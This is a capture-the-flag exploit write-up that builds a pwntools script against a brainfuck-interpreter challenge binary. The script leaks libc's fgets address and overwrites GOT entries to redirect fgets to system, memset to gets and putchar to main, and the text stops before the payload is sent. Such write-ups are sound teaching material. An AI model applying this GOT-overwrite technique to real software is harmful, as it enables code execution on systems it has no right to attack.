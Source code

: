 Let's develop a script!

## Exploit development - local testing
import `pwn` tools:
```python
from pwn import *
context.log_level = 'error'
```
create  a class of the instructions:
```python
class INSTRUCTIONS:
	MOVE_RIGHT = b">"
	MOVE_LEFT = b"<"
	READ = b"."
	WRITE = b","
```
load the `elf` and the `libc` and create a `process`:
```python
e = ELF("./bf")
# libc = ELF("./bf_libc.so") - use this for remote exploit
libc = ELF("/lib/i386-linux-gnu/libc.so.6") # use this for local exploit
p = e.process()
```
read the shit the program is yelling:
```python
p.recvuntil(b"type some brainfuck instructions except [ ]\n")
```
as we know, the `tape` symbol is the buffer starting location. now let's build our payload, remember we have 4 parts:
- leaking the address of `fgets`
- changing the got: `fgets` -> `system`
- changing the got: `memset` -> `gets`
- changing the got: `putchar` -> `main`
```python
payload = b''

# change the pointer to be at the GOT['fgets']
payload += INSTRUCTIONS.MOVE_LEFT * (e.sym["tape"] - e.got["fgets"])
# read 4 bytes (leak the address)
payload += (INSTRUCTIONS.READ + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4

# rewrite the got address of `fgets` to `system`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4

# change the pointer to be at the GOT['memset']
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["memset"] - e.got["fgets"])
# rewrite the got address of `memset` to `fgets`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4

# change the pointer to be at the GOT['putchar']
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["putchar"] - e.got["memset"])
# rewrite the got address of `putchar` to `main`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4

# get back to main
payload += INSTRUCTIONS.READ
```
Now, we can send the payload, and get our leak:
```python
```